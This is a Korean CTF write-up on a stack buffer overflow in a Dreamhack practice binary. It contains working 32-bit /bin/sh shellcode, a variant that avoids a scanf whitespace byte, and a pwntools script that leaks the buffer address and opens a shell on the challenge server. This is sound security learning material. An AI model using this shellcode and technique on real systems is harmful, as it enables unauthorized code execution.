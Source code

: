 # **basic_exploitation_000**


파일을 키자 말자 보이는 것이

```c
 char buf[0x80];
 
 scanf("%141s", buf);
```

버퍼는 0x80 (128바이트) 받으면서 

141바이트까지 입력을 허용한다

| 128바이트 |
| --- |
| 4바이트(SFP) |
| 리턴주소 |

이렇게 생겼으므로

133바이트부터 141바이트까지 /bin/sh 경로의 셀 주소를 넣어볼 것이다

그런데 위 경로는 셀 코드로 작성했을 때 

/bin/sh 경로는

```bash
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80'
```

으로 23바이트라 안들어가진다

그러면 

| 128바이트 |
| --- |
| 4바이트(SFP) |
| 리턴주소 |

리턴주소를 버퍼가 있는 주소로 잡고 버퍼에 셀 주소를 넣으면 된다 

우선 입력한 값이 어디 저장되는지 확인해보자

![image (16)](https://github.com/user-attachments/assets/17f3b5d5-aa4b-47b3-924e-34ffc89c69d1)

`0xffffd008`에 저장되는 것을 알았다

실제로 아무값인 dawd를 넣어보니

![image](https://github.com/user-attachments/assets/d385d44e-7e05-4131-8fbe-95b6e5d9bbb1)


`0xffffd008` 이 주소에 들어가진다

이제 위 정보들로 

| 23바이트 셀 주소 + 남은 105바이트 아무 값 |
| --- |
| 아무 값 4바이트 |
| 리턴주소로 `0xffffd008` |

이렇게 만들어주면 된다

```python
(python3 -c "import sys; sys.stdout.buffer.write(
b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80'
+ b'A'*105 + b'B'*4 + b'\x38\xd0\xff\xff')"; cat) | ./basic_exploitation_000

```

이렇게 했는데

안됐다

아무리봐도 문제가 없는거같아서 셀코드를

```python
b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
```

이걸로 수정하고 A를 102바이트로 바꿨더니 됐다.

같은 경로의 셀 코드인데 하나는 되고 하나는 안되는 이유를 모르겠어서 한참 찾아봤더니

표준 c에서는 scanf 가 `\x0b`를 공백 문자 취급한다고 한다

execve 시스템 콜 번호가 `0b` 이고 (숫자 11)

`mov al, 0x0b` 레지스터 al에 11을 넣는 명령어라고 한다

근데 마침 `0b` 가 아스키로 수직 탭(\v)이라 공백 처리 되어서 문제가 있었던 거였다

**비교**

> \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
> 

> \x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80
> 

```python
(python3 -c "import sys; sys.stdout.buffer.write(
b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80' +
b'A'*102 + b'B'*4 + b'\x38\xd0\xff\xff')"; cat) | ./basic_exploitation_000

```

![image](https://github.com/user-attachments/assets/34a97d0f-6976-4233-87ca-19784c6eda6c)

이렇게 접근에 성공했다

이제 서버에 넣어보면

![image (17)](https://github.com/user-attachments/assets/222265ad-7ea2-498c-8dce-c6bd9f4f8cea)

또 안된다
이유를 모르겠어서 멘토형님한테 물어보니  
운영체제는 프로그램을 실행할 때 가상 메모리를 사용하고,  
여러 보안 기능 중 하나로 **ASLR (Address Space Layout Randomization)**을 통해 메모리 주소를 랜덤하게 배정한다고 한다  
실행파일의 코드 영역 등이 매 실행마다 랜덤하게 시작 주소가 바뀌는 구조인거다.  

그래서 payload += p32(bufAddress) 이런식으로 버퍼 주소를 가져온 뒤 가져온 값으로 문제를 풀어야한다  


야한다

```python
from pwn import *
r=remote('host3.dreamhack.games',20922)

r.recvuntil(b"buf = (")
bufAddress = int(r.recv(10), 16)

payload = b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
payload += b'\x80'*106
payload += p32(bufAddress)

r.sendline(payload)
r.interactive()
```

멘토형의 코드를 들고왔다

`recvuntil(b"buf = (")`를 통해 `buf = (` 가 나올 때까지 기다렸다가

나오면 `bufAddress = int(r.recv(10), 16)` 앞에 10글자를 16진수로 받는다는 뜻이다

그리고 payload는 위에 작성한 것 처럼 

실행할 코드 → 쓰레기값 → 리턴주소에 실행할 코드가 있는 곳 주소이다

`payload += p32(bufAddress)` 는 4바이트 리틀엔디언 형식이다

`r.sendline(payload)`로 이제 patload를 보내고 

`r.interactive()` 로 상호작용 모드로 전환한다는 뜻이다

그렇게 실행시켜보면

![image](https://github.com/user-attachments/assets/2cf6613c-e3d5-4d02-a075-a3140aa67872)

드디어 된다


